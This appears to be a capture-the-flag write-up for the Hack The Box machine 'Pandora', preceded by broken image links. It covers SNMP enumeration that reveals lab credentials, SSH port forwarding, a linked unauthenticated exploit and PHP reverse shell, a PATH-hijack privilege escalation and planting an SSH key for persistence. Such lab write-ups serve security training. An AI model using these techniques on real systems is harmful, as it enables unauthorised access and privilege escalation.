










# Enumeration
Using nmap enumeration:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT    STATE SERVICE
161/udp open  snmp

```
There is a website on port :

Using gobuster found some directories but wasnt useful
Using snmpwalk walk to enumerate:
`snmpwalk -c public -v2c 10.10.11.136`
Found Credentials on snmpwalk:

daniel : HotelBabylon23
# Exploitation
Logging in using ssh found one more user matt in home directory.

Checking apache servers in `/etc/apache2/sites-available`:
pandora.conf

The port is on localhost so forwarding is needed.
Using ~ to give command in ssh and then type "C" to give additional arguments
`ssh daniel@10.10.11.136 -L 8000:127.0.0.1:80`
Visiting 127.0.0.1:8000

Using this [exploit](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/tree/master)
And uploading [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
Using linpeas

Now analysing the file pandora_backup located at /usr/bin/pandora_backup
Using ghidra we can see
Now doing a path hijack

```
echo /bin/bash > tar

export PATH=/home/matt:$PATH

chmod +x tar

```


This doesn't work due to an error with sudo

It doesn't run from this shell so getting an ssh shell.
To get a ssh shell in matt:
- generate key pair with `ssh-keygen`
- drop public key into `/home/matt/.ssh/authorized_keys`
-  Give appropriate permissions
```
chmod 700 /home/matt/.ssh
chmod 600 /home/matt/.ssh/authorized_keys
```
- `ssh -i id_ed25519 matt@10.10.11.136` Login using ssh
Now `sudo -l` works with ssh:

Now  running pandora_backup we get root:

# Beyond Root
To trace back the process we did `echo $$` first and went back from there in `ps -ef`


SUID binaries failed to run due to the pandora.conf in apache2:

It runs as user matt and group matt
The /etc/apache2/mods-enabled directory shows the various modules that are enabled, and mpm-itk is there (typically items in the *-enabled directories are symbolic links to items in the *-available directories):